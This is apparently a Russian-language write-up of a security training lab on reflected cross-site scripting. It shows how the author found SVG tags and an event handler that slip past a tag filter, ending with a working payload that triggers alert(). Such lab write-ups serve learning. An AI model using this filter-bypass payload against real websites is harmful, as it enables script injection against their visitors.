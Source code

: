 Эта лаборатория имеет простую отраженную уязвимость XSS. Сайт блокирует общие теги, но пропускает некоторые теги SVG и события.

Для решения лабораторной работы выполните атаку с использованием межсайтового скриптинга, вызывающего `alert()`функцию.

## Дано

Простая отраженная уязвимость XSS
Блокирует общие теги, но пропускает некоторые теги SVG и события

## Задача

вызваь `alert()`функцию

# Решение

Поиск SVG формата
- проверка функции search

Найдена уязвимость с кодировкой url спец символов и символом `/0` но она экранируется к сожалению

Пробуем найти доступные теги
```
animatetransform
svg
title
```

Теперь ищем атрибуты
```
<svg><animatetransform+events=1>
```
onbegin - доступен


```
<svg><animatetransform+onbegin=alert(1)>
```